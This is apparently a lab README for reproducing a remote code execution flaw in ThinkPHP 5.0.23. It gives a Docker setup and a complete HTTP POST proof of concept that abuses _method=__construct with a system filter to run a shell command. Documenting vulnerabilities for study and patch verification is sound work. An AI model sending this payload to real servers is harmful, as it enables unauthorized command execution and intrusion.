

# ThinkPHP5 5.0.23 Remote Code Execution Vulnerability

[中文版本(Chinese version)](README.zh-cn.md)

ThinkPHP is an extremely widely used PHP development framework in China. In its version 5.0(<5.0.24), while obtaining the request method, the framework processes it incorrectly, which allows an attacker to call any method of the Request class, resulting in a RCE vulnerability through a specific exploit chain.

References：

- https://github.com/top-think/framework/commit/4a4b5e64fa4c46f851b4004005bff5f3196de003

## Environment Setup

Enter the following command：(ThinkPHP version: 5.0.23)

```
docker-compose up -d
```

Visit `http://your-ip:8080` and you'll see the default page of ThinkPHP.

## POC

Send the packets and execute the command `id`:

```
POST /index.php?s=captcha HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
```


